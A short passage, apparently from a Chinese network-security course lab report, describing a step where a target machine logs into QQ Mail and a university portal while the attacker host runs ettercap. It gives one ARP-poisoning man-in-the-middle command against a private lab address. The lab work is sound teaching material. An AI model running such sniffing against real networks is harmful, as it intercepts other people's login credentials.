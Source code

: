      ![](/网络安全/chap0x04/images/5-1-3-3.png)

- 在靶机进行访问互联网操作：访问mail.qq.com登录QQ邮箱和中国传媒大学教务在线进行相关登录,在攻击者主机实现ettercap嗅探。
  - 1.执行

     ```bash
    ettercap -T -q -M ARP /192.168.111.2// ///
    ```
